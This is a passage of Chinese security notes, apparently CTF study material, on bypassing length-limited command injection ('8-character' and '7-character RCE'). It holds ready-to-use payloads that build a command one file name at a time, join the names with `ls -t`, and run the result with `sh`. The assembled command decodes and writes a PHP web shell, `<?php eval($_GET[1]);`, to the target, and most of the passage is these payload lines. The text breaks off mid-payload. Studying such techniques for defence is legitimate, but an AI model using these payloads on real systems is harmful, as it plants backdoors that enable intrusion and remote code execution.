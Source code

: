     思路：

    * 使用`>`符号将要构造的内容分段创建，要从命令的后面往前创建

    * 然后再使用ls -t会对创建的文件进行排序

    * `ls -t >a`就可以将目录下所有文件名拼接输入到文件a中

    * `sh a`会将a中的内容以shell脚本形式执行

    ```php

    //payload，里面的\要进行转义的，为了变成反斜杠字符传到a中，以后执行的时候就会变为换行符
    >hp
    >1.p\\
    >d\>\\
    >\ -\\
    >64\ \\
    >base\\
    >\=\|\\
    >dKTs\\
    >UWzF\\
    >fR0V\\
    >jKCR\\
    >leGV\\
    >sbF9\\
    >zaGV\\
    >obyB\\
    >gZWN\\
    >waHA\\
    >PD9\\
    >o\ \\
    >ech\\
    ls -t>0
    sh 0

    ```

* 7字符RCE

    同8字符，只是写入shell的时候减一个字母

    ```php

    #写入语句
    <?php eval($_GET[1]);
    #base64编码后
    PD9waHAgZXZhbCgkX0dFVFsxXSk7
    #需要被执行的语句：
    echo PD9waHAgZXZhbCgkX0dFVFsxXSk7|base64 -d>1.php

    ```

    ```php

    >hp
    >1.p\\
    >d\>\\
    >\ -\\
    >e64\\
    >bas\\
    >7\|\\
    >XSk\\
    >Fsx\\
    >dFV\\
    >kX0\\
    >bCg\\
    >XZh\\
    >AgZ\\
    >waH\\